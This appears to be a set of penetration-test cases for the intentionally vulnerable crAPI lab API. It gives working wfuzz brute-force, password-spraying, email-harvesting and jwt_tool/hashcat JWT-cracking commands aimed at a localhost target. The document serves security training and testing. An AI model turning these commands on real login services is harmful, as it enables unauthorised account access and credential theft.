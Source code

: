> # Authentication Attacks
>
> ## TC#01 Brute force
>
>> ### 'We should able to brute force the login page with huge wordlists'
>
> Preconditions:
>
> Install mentalist: https://github.com/sc0tfree/mentalist/wiki/Installation#linux-apt-package-manager
> Install cupp: https://github.com/Mebus/cupp
>
>
> Steps:
```
wfuzz -d '{"email":"a@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/rockyou.txt -u http://127.0.0.1:8888/identity/api/auth/login --hc 405
```
> Expected result:
> 
> 1. Should able to find correct usernames and passwords
> 
------------------------------------------------------------------------------------------
>
> ## TC#02 Password Spraying
>
>> ### 'Use Password Spraying to login page with short wordlists and weak passwords'
>
> Preconditions:
> 
> 1. Save the response containing an excessive data exposure as "response.json".
> 2. Pull emails from the saved JSON response and save as crapiusers file
```
grep -oe "[a-zA-Z0-9._]\+@[a-zA-Z]\+.[a-zA-Z]\+" response.json > crapiusers
```
> 3. Sort unique emails and save as crapiuniq file
```
cat crapiusers | sort -u > crapiuniq
```
> 4. Create passwords short list
```
Password1
Password3
Password123
Crapi123
Summer2022! 
Spring2022! 
March212006!
Fall2021!
12345Qwert!
Dorsey@2022
``` 
>
> Steps:
> 
> 1. Burp suite: clusterbomb
> 2. Set up users and passwords lists
> 3. Run
> 4. Payload Processing: base64-encode
> 5. Ctrl-shift-b -> right click -> convert selection -> base 64 decode
>
> Expected result:
> 
> 1. Should able to find correct password
> 
------------------------------------------------------------------------------------------
>
> # Api Token Attacks
>
> ## TC#03 JWT Attacks
>
>> ### 'Password Spraying to login page with short wordlists and weak passwords'
>
> Preconditions:
> 
> Analyze JWT token
> 1. Intercept request in burp suite
> 2. Open in Sequencer
> Click on Configure and highlight the token value
> 3. Click "Start Live Capture"
> ![Burp Suite Sequencer](/docs/token_analysis/Sequencer.png "Sequencer screenshot")
>
> 4. Use jwt_tools to analyze:
>
> ![jwt_tools](/docs/token_analysis/jwt_tool.png "jwt_tool screenshot")
>
>
> Steps:
> 1. Automating JWT attacks
> Use JWT automated tool (jwt_tools)
```
jwt_tool -t http://127.0.0.1:8888/identity/api/v2/user/dashboard -rh "Authorization: Bearer eyJhbGciOiJSUzI1NiJ9....2QKV-qv72Q" -M pb
```
> Change Algorithm value to "none":
```
jwt_tool eyJhbGciOiJ....dWIip6Ym2QKV_-qv72Q -X a
```
> 2. JWT Crack Attack
> Generate wordlist:
```
crunch 5 5 -o crapi.txt
```
> Run jwt_tools to find secret key
```
jwt_tool eyJhbGciOiJSUzI1NiJ9....2QKV-qv72Q -C -d crapis.txt
``` 
> Or run hashcat to crack secret sign
```
hashcat -a 0 -m 16500 eyJhbGyKcjHKjhw....akjF46xCpioGU0 /home/lizard/Downloads/rockyou.txt --show
```
>
> Expected result:
> 
> 1. Should able to find the secret key
> 
------------------------------------------------------------------------------------------
>
